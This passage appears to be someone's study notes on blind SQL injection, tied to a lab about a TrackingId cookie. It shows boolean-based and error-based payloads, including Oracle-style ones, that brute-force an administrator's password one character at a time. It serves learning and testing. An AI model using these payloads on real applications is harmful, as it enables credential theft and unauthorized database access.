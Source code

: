      these two tests we detect that App infected with SQLI hence let's exploit it 

     we can preform any sql command after AND

     for Ex : we can brute force password char by char using

     ```sql
     xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
     -- repeat to reach right char
     xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
     
     xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), §1§, 1) = '§a§
     -- here app return welcome which means first char of password is 's'
     -- repaet for next chars ... Congrats u have password 
     ```

   

   - **Inducing conditional responses by triggering SQL errors**

     In this situation, *it is often possible to induce the application to return conditional responses by triggering SQL errors conditionally*, depending on an injected condition. This involves modifying the query so that it will cause a database error if the condition is true, but not if the condition is false. Very often, an unhandled error thrown by the database will cause some difference in the application's response (such as an error message), allowing us to infer the truth of the injected condition.
     
     To see how this works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:
     
     `xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
     
     `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a`
     
     These inputs use the CASE keyword to test a condition and return a different expression depending on whether the expression is true. With the first input, the CASE expression evaluates to 'a', which does not cause any error. With the second input, it evaluates to 1/0, which causes a divide-by-zero error. Assuming the error causes some difference in the application's HTTP response, we can use this difference to infer whether the injected condition is true.
     
     Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:
     
     `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) = §m§') THEN 1/0 ELSE 'a' END FROM Users)='a`
     
     above payload trigger error when CASE WHEN become true
     
     *note : CASE WHEN [condition] THEN [true_case] ELSE [false_case] END* 
     
     ```sql
     -- 	================ Scenario ================
     -- check if app infected with SQLI
     xzy''
     -- test using concat
     '||(select '' from users where ROWNUM=1)||'
     -- check if there is user named administrator
     '||(select case when (1=1) then TO_CHAR(1/0) ELSE '' END from users where username='administrator')||'
     -- brute force pass lenght
     '||(select case when length(password)>§1§ then TO_CHAR(1/0) ELSE '' END from users where username='administrator')||'
     -- brute force pass
     '||(select case when substr(password,§1§,1)='§a§' then TO_CHAR(1/0)  ELSE '' END from users where username='administrator')||'
     ```
     